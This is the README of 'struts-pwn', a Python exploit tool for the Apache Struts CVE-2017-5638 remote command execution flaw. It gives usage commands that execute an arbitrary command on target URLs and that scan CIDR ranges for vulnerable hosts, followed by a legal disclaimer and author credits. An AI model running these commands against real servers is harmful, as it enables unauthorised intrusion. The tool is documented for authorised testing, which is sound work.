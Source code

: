 *struts-pwn*
============

### An exploit for Apache Struts CVE-2017-5638 ###


#**Usage**#

##Testing a single URL.##
`python struts-pwn.py --url 'http://example.com/struts2-showcase/index.action' -c 'id'`

##Testing a list of URLs.##
`python struts-pwn.py --list 'urls.txt' -c 'id'`

##Checking if the vulnerability exists against a single URL.##
`python struts-pwn.py --check --url 'http://example.com/struts2-showcase/index.action'`

##Checking if the vulnerability exists against a list of URLs.##
`python struts-pwn.py --check --list 'urls.txt'`

##Checking if the vulnerability exists against a CIDR range.##
`python struts-pwn.py --check --range "127.0.0.1/24"

##Checking if the vulnerability exists for a specific port (option is available for all above options).##
`python struts-pwn.py --check --port 8081


#**Requirements**#
* Python2 or Python3
* requests


#**Legal Disclaimer**#
This project is made for educational and ethical testing purposes only. Usage of struts-pwn for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


#**License**#
The project is licensed under MIT License.


#**Original Author**#
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: *mazin AT mazinahmed DOT net*
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)

#**Mod author**#
*Cristian Giustini*
* Website: [http://www.voidzone.it](http://www.voidzone.it)
* Email: *void AT voidzone DOT it*